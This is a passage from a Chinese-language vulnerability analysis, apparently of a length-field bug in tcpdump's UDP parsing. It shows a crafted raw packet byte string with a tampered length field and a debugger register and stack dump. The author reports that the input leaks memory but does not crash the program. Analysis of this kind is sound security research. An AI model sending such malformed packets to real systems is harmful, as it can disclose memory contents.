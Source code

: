 一开始我也没有弄懂，梳理一下，首先`ebp-0x30`这个地址存储的是一个指针，这个指针指向的数据是我们输入的数据，然而长度数据是从这个指针往下偏移`0x08`字节的位置取出的

开始猜，这里应该是在传进来之前对`len`字段做了减去某些头部数据的处理了，猜测长度应该是`\x3d\xe6`，我们来验证一下，我们把长度改为`\x3e\xe6`，加一个字节
```
"\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6(这里=>)\x3e\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\x8e\x0d\x00\x4b\x00\x00\xe8\x12\x00\x00\x00\x00\x1f\xc6\x51\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01"
```

再次调试，可以发现长度参数加一了
```
 [----------------------------------registers-----------------------------------]
EAX: 0xb7a160a8 --> 0xd8e02 
EBX: 0x0 
ECX: 0xb7a16094 --> 0x3ee60045 
EDX: 0xe62a 
ESI: 0x0 
EDI: 0x8231d00 --> 0x20004644 ('DF')
EBP: 0xbfffe148 --> 0xbfffe1c8 --> 0xbfffe1f8 --> 0xbfffe258 --> 0xbfffe288 --> 0xbfffe2b8 (--> ...)
ESP: 0xbfffe0fc --> 0x8073540 (<ip_print_demux+542>:	add    esp,0x10)
EIP: 0x80bbe06 (<udp_print>:	push   ebp)
EFLAGS: 0x200246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80bbe03 <udpipaddr_print+553>:	pop    edi
   0x80bbe04 <udpipaddr_print+554>:	pop    ebp
   0x80bbe05 <udpipaddr_print+555>:	ret    
=> 0x80bbe06 <udp_print>:	push   ebp
   0x80bbe07 <udp_print+1>:	mov    ebp,esp
   0x80bbe09 <udp_print+3>:	push   edi
   0x80bbe0a <udp_print+4>:	push   esi
   0x80bbe0b <udp_print+5>:	push   ebx
[------------------------------------stack-------------------------------------]
0000| 0xbfffe0fc --> 0x8073540 (<ip_print_demux+542>:	add    esp,0x10)
0004| 0xbfffe100 --> 0xb7a160a8 --> 0xd8e02 
0008| 0xbfffe104 --> 0xe62a 
0012| 0xbfffe108 --> 0xb7a16094 --> 0x3ee60045 
0016| 0xbfffe10c --> 0x0 
0020| 0xbfffe110 --> 0x0 
0024| 0xbfffe114 --> 0x8231d00 --> 0x20004644 ('DF')
0028| 0xbfffe118 --> 0xbfffe18c --> 0xb7a16094 --> 0x3ee60045 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 5, 0x080bbe06 in udp_print ()
```

不过在之后的测试中并没有让它崩溃，只是一直泄露数据，这个还有待学习

那么该漏洞的分析就到此了
